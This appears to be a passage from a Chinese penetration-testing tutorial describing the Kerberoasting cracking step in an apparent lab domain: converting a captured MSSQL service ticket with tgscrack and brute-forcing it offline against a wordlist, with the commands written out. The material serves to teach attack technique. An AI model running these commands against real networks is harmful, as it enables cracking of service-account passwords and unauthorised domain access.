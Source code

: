使用`download`命令下载即可，使用`tgscrack`对票据进行转换并且破解，下载地址如下

```bash
https://github.com/leechristensen/tgscrack
```

运行以下命令进行转换

```bash
python2 extractServiceTicketParts.py '/home/kali/Desktop/tgscrack-master/2-40a10000-micle@MSSQLSvc~Srv-Web-Kit.rootkit.org~1433-ROOTKIT.ORG.kirbi' >tgshash
```

[![](assets/1708919803-b621f7f68efb81b7d80bd8cc264110a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142235-1b60d56a-ce26-1.png)

使用`tgscrack.go`进行破解，`go run tgscrack.go -hashfile tgshash -wordlist pass.txt`

[![](assets/1708919803-798c51a327b4879f04ff0548e838e692.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142240-1e04752e-ce26-1.png)

使用过程中可能会出现缺少依赖的问题，使用以下命令初始化新的模块然后安装即可

```bash
go mod init tgscrack 
go get golang.org/x/crypto/md4
```

